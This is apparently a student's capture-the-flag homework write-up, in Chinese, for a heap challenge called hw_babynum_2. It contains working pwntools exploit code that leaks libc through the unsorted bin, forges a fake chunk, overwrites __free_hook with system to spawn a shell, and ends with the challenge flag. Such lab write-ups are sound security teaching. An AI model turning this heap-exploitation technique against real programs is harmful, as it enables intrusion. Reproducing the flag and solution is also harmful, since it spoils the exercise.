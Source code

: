 # hw_babynum_2

1. 這題一開始我先嘗試執行程式，並看 source code  跟 用gdb 去看每個選項執行完的效果，發現這題跟 Lab_Babynote 很像，但不同的是 這邊 add() 有三個參數( index, name, password )會增加 0x10 個 byte，所以我的想法是用類似 Lab_babynote 的做法去解這題，一樣先 heap 堆疊 → leak memory information from unsorted bin → 構造 fake chunk → get shell 。但是中間的所有 offset 可能要改過。

1. 首先，先heap 堆疊，這邊我把每個選項改寫成函數，然後要執行選項的時候，就不用重複一直打很多行的 r.sendlineafter，然後下面就可以用類似 babynote 對方法去堆疊 heap。

```python
def add( index , username , password ):
    r.sendlineafter( '>' , b'1' )
    r.sendlineafter( "index\n> ", str(index).encode() )
    r.sendlineafter( "username\n> ",str(username).encode())
    r.sendlineafter( "password\n> ", str(password).encode()) 
def edit( index , size , idc_p_data_size ):
    r.sendlineafter( '>' , b'2' )
    r.sendlineafter( "index\n> ", str(index).encode())
    r.sendlineafter( 'size\n> ' , str(size).encode())
    r.send( str(idc_p_data_size).encode()) #users[idx]->data, size

def delete( index ):
    r.sendlineafter( '>' , b'3' )
    r.sendlineafter( "index\n> ", str(index).encode() )
                                                     

def show():
    r.sendlineafter( '>' , b'4' )

add(1,"A"*8,"A"*8)
edit(1,0x418,"A")
add(2,"B"*8,"B"*8)
edit(2,0x18,"B")
add(3,"C"*8,"C"*8)
delete(1)

```

3. 然後嘗試直接去 leak mamory的資訊 from unsorted bin，這邊我直接用 unsorted bin 的 fd ，會指向 main_arena+96 的地方，我用它當基準，然後用 gcb 分別去找 “p &__free_hook 和 “p &system” 的位址，然後去算它們跟 main_arena+96 之間的距離分別是 +0x2268 及 -0x19a950。

```
main_areana+96 : 0x7fb6fc918be0
free_hook : 0x7fb6fc91ae48
system : 0x7fb6fc77e290
free_hook - main_arena+96 = 0x2268
system - main_arena+96 = 0x19a950
```

```python
show()
r.recvuntil("data: ")
main_arena = u64(r.recv(6).ljust(8,b"\x00"))
free_hook = main_arena + 0x2268 
system = main_arena - 0x19a950
info(f"main_arena : {hex(main_arena)}")
print("main_arena :", main_arena)
print("free_hook",free_hook)
print("system",system)
```

1. 再來就是利用前面得到的資訊，組成一個 fake_chunk ，fake_chunk 裡面要多一行的 password ，然後再用 edit(2, 0x48, data )去蓋過 chunk 及 edit(2, 0x8, p64(system)) 將 free_hook 指向的地方改為 system 的 address，而我這邊的程式碼沒有用到前面寫好的 function 而改為一行一行寫的原因是，不知道為什麼我用前面的函數傳送字串會有問題，導致覆蓋的 offset 會出錯，所以改回去用比較一般的寫法，就可以成功覆蓋 chunk 。

```python
data = b'/bin/sh\x00'.ljust(0x10, b"B")
fake_chunk =flat(
    0, 0x31,
    b"AAAAAAAA", b"AAAAAAAA",
    b"AAAAAAAA", b"AAAAAAAA",
    free_hook,
    )

#edit(2, 0x48, data )
r.sendlineafter('>', b'2')
r.sendlineafter( "index\n> ", b'2')
r.sendlineafter( "size\n> ", b'1048')
r.send( data + fake_chunk )

#edit(2, 0x8, p64(system))
r.sendlineafter('>', b'2')
r.sendlineafter( "index\n> ", b'3')
r.sendlineafter( "size\n> ", b'8')
r.send( p64(system) )
```

![截圖 2022-12-07 下午9.54.49.png](hw_babynum_2%20bdfea95d9557435d9f75205f25a005d3/%25E6%2588%25AA%25E5%259C%2596_2022-12-07_%25E4%25B8%258B%25E5%258D%25889.54.49.png)

1. 最後，可以執行 delete(2) ，呼叫 free_hook 然後執行 system(“/bin/sh”)，就成功拿到 shell ，然後再去 cat home/chal/flag 就能夠拿到 FLAG{crocodile_9d7d8f69be2c2ab84721384d5bda877f}
